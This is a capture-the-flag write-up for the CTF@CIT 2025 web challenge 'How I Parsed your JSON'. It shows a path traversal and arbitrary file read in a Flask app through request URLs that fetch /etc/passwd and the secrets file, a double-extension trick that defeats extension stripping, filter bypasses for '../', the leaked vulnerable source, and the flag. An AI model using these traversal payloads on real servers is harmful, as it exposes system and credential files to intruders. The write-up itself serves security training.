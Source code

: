 ```yaml
---
name: How I Parsed your JSON (2025)
event: CTF@CIT CTF 2025
category: Web
description: Writeup for How I Parsed your JSON (Web) - CTF@CIT CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# How I Parsed your JSON

[![](https://img.youtube.com/vi/ZBdApaw0r0M/0.jpg)](https://www.youtube.com/watch?v=ZBdApaw0r0M?t=265 "How I Parsed your JSON (CIT CTF)")

## Description

> "This is the story of how I defined your schema."
>
> The flag is in secrets.txt

## Solution

We are greeted by a `FlaskMyAdmin` page, providing some basic instructions. First, we can make basic queries where the URL looks like `http://23.179.17.40:58004/select?record=*&container=tasks`.

![](images/0.PNG)

Secondly, we have some `Getting Started` instructions.

1. Create a directory called containers
2. Create a file named after your table name (do not include .json)
3. Add your data in valid JSON format

Sounds like we need to modify the URL to create a directory first. I tried some different endpoints and request methods but it all failed. Maybe we can just read files?

```
http://23.179.17.40:58004/select?record=*&container=/etc/passwd
```


![](images/1.PNG)

Yep! So we can try the `secrets.txt`.

```
http://23.179.17.40:58004/select?record=*&container=secrets.txt
```


However, it shows `"Invalid query"`, which is probably due to comment on the page `"File extensions will be removed from queries"`.

First, I simply try two extensions, assuming that the first may be stripped but not the second. Actually, it looks good! The output shows `"Results from secrets.txt"` now, rather than `"Results from secrets"`. It still says `"Invalid query"` though 🤔

Maybe we should look for other important files. It's a Flask app, so let's try some common ones. Remember the double extension: `/app/app.py.py`

```python
from flask import Flask, render_template, request
import json
import os

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/select')
def select():
    container_name = request.args.get('container')
    record_name = request.args.get('record')

    container_name = clean_container_name(container_name)
    container_path = os.path.join('containers/', container_name)

    try:
        with open(container_path, 'r') as container_file:
            if record_name == '*':
                return_data = container_file.read()
            else:
                json_data = json.load(container_file)
                return_records = [entry.get(record_name) for entry in json_data if record_name in entry]
                return_data = ''.join(f'{r}, ' for r in return_records)[:-2]
    except:
        return_data = 'Invalid query.'

    return render_template('index.html', data=return_data, container=container_name)

def clean_container_name(n):
    n = os.path.splitext(n)[0]
    n = n.replace('../', '')
    return n

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0')
```


Notice the code for stripping file extensions and replacing `../`, we can easily bypass that with URL-encoding (`%2e%2e%2f`) or even `..//`

We don't need to though, the flag is in `/app/secrets.txt.txt`

Just visit `http://23.179.17.40:58004/select?record=*&container=/app/secrets.txt.txt`

Flag: `CIT{235da65aa6444e27}`

